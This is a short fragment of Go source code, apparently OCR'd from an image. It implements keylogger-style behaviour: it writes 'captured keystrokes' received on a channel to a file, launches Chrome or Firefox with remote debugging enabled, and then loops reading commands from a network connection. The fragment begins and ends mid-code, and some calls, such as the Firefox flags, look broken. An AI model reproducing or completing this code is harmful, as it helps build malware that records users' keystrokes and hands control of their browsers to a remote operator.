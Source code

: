 ```

		for {

			select {

			case message := <-c:

				keyStrokes := strings.TrimSpace(string(message))

				log.Printf("Captured keystrokes: %s\n", keyStrokes)

				file.WriteString(keyStrokes + "\n")

			}

		}

	}()



	// Check if the target browser is open

	if strings.Contains(strings.ToLower(os.Args[1]), "chrome") {

		exec.Command("chrome.exe", "--remote-debugging-port=9222")

	} else if strings.Contains(strings.ToLower(os.Args[1]), "firefox") {

		exec.Command("firefox.exe", "-remote", "setDebuggerEnabled", "true")

	}



	// Start listening for commands

	for {

		_, message, err := conn.ReadMessage()

		if err != nil {

			log.Println("Error reading message:", err)

			break

		}



	

